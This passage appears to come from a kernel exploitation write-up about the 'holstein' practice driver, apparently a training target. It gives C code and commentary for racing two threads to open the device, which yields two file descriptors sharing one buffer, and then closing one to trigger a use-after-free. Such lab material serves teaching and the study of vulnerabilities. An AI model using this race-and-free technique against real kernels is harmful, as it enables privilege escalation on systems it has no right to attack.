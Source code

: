 The first thing we want to achieve with our exploit is to have two file descriptors opened at the same time. To achieve this we need two threads racing against each other to open kernel module. This is how it looks like in code:
```c
int fd1, fd2;
...
int win = 0;
void* race_fd(void *arg) {
    ...
    while (1) {
        while (!win) {
            int fd = open("/dev/holstein", O_RDWR);
            if (fd == fd2) {
                win = 1;
            }
            if (win == 0 && fd == fd1) {
                close(fd);
            }
        }
        // Other thread can still close fd, sanity check
        if (write(fd1, "A", 1) != 1 || write(fd2, "a", 1) != 1) {
            close(fd1);
            close(fd2);
            win = 0;
        } else {
            // All good
            break;
        }
    }
    return NULL;
}
...

// Check which fd will be assigned after UAF and assign them automatically
fd1 = open("/tmp", O_RDONLY);
fd2 = open("/tmp", O_RDONLY);
close(fd1);
close(fd2);
printf("[+] fd1=%d, fd2=%d\n", fd1, fd2);

// Race
pthread_create(&th1, NULL, race_fd, (void*)&t1_cpu);
pthread_create(&th2, NULL, race_fd, (void*)&t2_cpu);
pthread_join(th1, NULL);
pthread_join(th2, NULL);

// UAF
close(fd1);
```
This gives us two file descriptors `fd1` and `fd2` pointing to the same memory region. I added a sanity check to confirm I can indeed write to both file descriptors. Also, before racing I opened "/tmp" to check which file descriptors will be assigned next. Initially this value was hardcoded to 3 and 4 but later I realized if I want to utilize this bug multiple times or if the system opened some file the file descriptors would change and the exploit would be unstable.

